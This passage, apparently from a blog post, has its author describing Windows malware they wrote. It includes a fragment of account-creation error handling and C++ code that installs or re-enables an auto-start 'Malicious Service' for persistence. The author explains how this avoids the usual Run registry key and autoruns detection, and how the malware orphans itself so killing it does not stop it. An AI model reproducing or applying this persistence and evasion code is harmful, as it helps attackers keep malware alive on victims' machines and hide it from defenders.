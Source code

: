 ```cpp
			break;
		default:
			printf("Error adding user: %d\\n", err);
			NetApiBufferFree(lpszPrimaryDC);
		}
	}
```

The MSDN has a ton of functions pertaining to users/accounts/groups/permissions/etc. here: <a href="http://msdn.microsoft.com/en-us/library/aa370649%28VS.85%29.aspx">http://msdn.microsoft.com/en-us/library/aa370649%28VS.85%29.aspx</a>

<h3>Creating a Malicious Service</h3>
This was my favorite part. Even if I named my process something convincing like lsass or wininit I still would be SOL if the victim found and killed the process. So I made a service that spawned another instance when the currently running one died. This also allowed for persistence across reboots as the service was set to automatic start. This was nice because I did not have to use the classic persistence run key at "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" that everyone looks in and autoruns finds. In this case everything my malware put in registry was not detected by autoruns.
Here I use the other constructor to the Service class in order to create and install the new service: (a bit messy, but it works)
```cpp

	//create the service and start it
	Service malSvc(L"malSvc", L"C:\\\\path\\\\to\\\\service", SERVICE_AUTO_START, SERVICE_WIN32_OWN_PROCESS, L"Malicious Service");
	if (!malSvc.initFail){ //if it fails then it probably already exists
			malSvc.DoStartSvc();
			malSvc.setAutoStart();
	}else{
		//load up the already existing service and enable/start it, plus set auto start
		Service existingMalSvc(L"malSvc");
		if (!existingMalSvc.getSvcEnabled()){
			existingMalSvc.DoEnableSvc();
			existingMalSvc.DoStartSvc();
			existingMalSvc.setAutoStart();
		}else if (!existingMalSvc.getSvcRunning()){
			existingMalSvc.DoStartSvc();
			existingMalSvc.setAutoStart();
		}
	}
```

The service is awesome because it allowed me to orphan processes in Windows, which it turns out is really hard/impossible otherwise. 
Services are the children of services.exe. We can use this to our advantage. Here is how my malware works when threatened:

Kill main malware -> service re-spawns it (as child) -> malware stops service, orphaning itself -> malware starts service, maintaining persistence

I think this is pretty clever!
